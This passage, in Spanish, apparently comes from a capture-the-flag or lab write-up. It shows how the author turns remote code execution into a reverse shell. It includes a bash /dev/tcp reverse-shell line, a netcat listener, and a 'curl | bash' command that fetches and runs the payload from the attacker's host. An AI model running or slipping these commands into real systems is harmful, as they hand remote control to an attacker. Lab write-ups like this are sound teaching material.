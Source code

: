 ![image](../zimages/Pasted_image_20241105172827.png)

Quiere decir que tenemos RCE, vamos a intentar conseguir una reverse shell. Para no liarla mucho, vamos a crearnos un archivo .html con el siguiente código:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.17/443 0>&1
```

Esto nos permitirá conseguir una reverse shell con el típico comando de bash. Ahora vamos a ponernos en escucha con `nc-nlvp 443` y vamos a crear un server en python para compartir la shell reversa (`python3 -m http.server 80`). Por último pondremos el siguiente comando en el RCE del exploit:

```bash
curl 10.10.14.17 | bash
```

Le decimos que nos haga un curl a nuestra ip y, como es un archivo index.html, leerá directamente el código, después lo pipeamos con bash para que lo interprete directamente con bash, de esta manera, recibimos nuestra shell:

![image](../zimages/Pasted_image_20241105173351.png)
